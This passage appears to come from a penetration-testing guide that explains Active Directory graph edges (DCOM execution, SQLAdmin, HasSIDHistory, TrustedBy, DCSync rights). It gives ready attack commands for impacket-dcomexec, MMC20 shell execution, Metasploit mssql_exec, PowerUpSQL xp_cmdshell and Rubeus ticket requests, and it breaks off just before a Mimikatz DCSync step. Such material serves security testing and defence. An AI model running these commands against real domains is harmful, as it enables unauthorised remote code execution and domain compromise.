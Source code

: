 ```
$> impacket-dcomexec <domain>/<attackerUser>:<attackerPassword>@<targetComputer>
```

Or in Powershell:

```
PS> $mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "<domain>"))
PS> $mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,'<command>"',$null)
```

## SQLAdmin
This edge indicates that the source node (user or group) has administrative rights to the SQL service on the target node (computer).
Thus, via Metasploit, command line commands can be executed on the target host (of course, there are many other tools to exploit this edge):


```
msf> use auxiliary/admin/mssql/mssql_exec
msf> set CMD <command>
msf> set PASSWORD <attackerPassword>
msf> set RHOST <targetComputer>
msf> run
```

Or in Powershell using PowerUpSql:

```
PS> Get-SQLServerLinkCrawl -Instance <targetComputer> -Query "exec master..xp_cmdshell '<command>'"
```

## HasSIDHistory
This edge indicates that the SID of the destination node (user or computer) is included in the SID history from the source node (user or computer).
When the source node creates a Kerberos ticket, the ticket will contain the SID from the destination node.
Accordingly, the source node will have the same permission as the destination node.
To exploit this edge, a Kerberos ticket must be created.

```
PS> Rubeus.exe asktgt /user:<attackerUser> /domain:<domain> /rc4:<attackerNtlmHash> /nowrap /ppt
```

## TrustedBy
This edge informs about existing trust relationships.
The target node (domain) trusts the source node (domain).

## GetChanges & GetChangesAll
The source node can perform a DCSync attack using the DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privilege.
DCSync is actually used to synchronize different domain controllers using the Directory Replication Service Remote Protocol (MS-DRSR).
With Mimikatz, this attack can be easily implemented:
